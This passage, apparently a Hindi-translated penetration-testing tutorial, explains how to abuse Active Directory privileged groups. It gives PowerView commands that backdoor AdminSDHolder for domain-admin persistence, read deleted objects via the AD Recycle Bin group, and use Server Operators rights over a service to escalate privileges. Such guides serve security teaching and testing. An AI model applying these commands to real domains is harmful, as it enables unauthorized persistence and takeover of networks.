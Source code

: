 समूह के **सदस्यों** को प्राप्त करें:
```powershell
Get-NetGroupMember -Identity "AdminSDHolder" -Recurse
```
**AdminSDHolder** समूह में एक उपयोगकर्ता जोड़ें:
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```
जांचें कि क्या उपयोगकर्ता **Domain Admins** समूह में है:
```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```
यदि आप एक घंटे तक प्रतीक्षा नहीं करना चाहते हैं, तो आप एक PS स्क्रिप्ट का उपयोग करके तत्काल पुनर्स्थापना कर सकते हैं: [https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)

[**अधिक जानकारी ired.team में।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

## **AD Recycle Bin**

यह समूह आपको हटाए गए AD ऑब्जेक्ट को पढ़ने की अनुमति देता है। वहां कुछ रोचक जानकारी मिल सकती है:
```bash
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
### डोमेन कंट्रोलर एक्सेस

ध्यान दें कि हम वर्तमान सदस्यता के साथ डीसी पर फ़ाइलों तक पहुंच नहीं कर सकते हैं:

![](../../.gitbook/assets/a4.png)

हालांकि, यदि उपयोगकर्ता `सर्वर ऑपरेटर्स` में शामिल है:

![](../../.gitbook/assets/a5.png)

कहानी बदल जाती है:

![](../../.gitbook/assets/a6.png)

### Privesc <a href="#backup-operators" id="backup-operators"></a>

सेवा पर अनुमतियों की जांच करने के लिए [`PsService`](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) या `sc`, सिसइंटरनल्स से, का उपयोग करें।
```
C:\> .\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

[...]

[ALLOW] BUILTIN\Server Operators
All
```
यह सत्यापित करता है कि Server Operators समूह में [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) एक्सेस राइट है, जो हमें इस सेवा पर पूर्ण नियंत्रण प्रदान करता है।\
आप इस सेवा का दुरुपयोग करके इस सेवा को अभिमानी आदेशों को निष्पादित करने के लिए और प्रभावी अधिकारों को बढ़ाने के लिए कर सकते हैं।
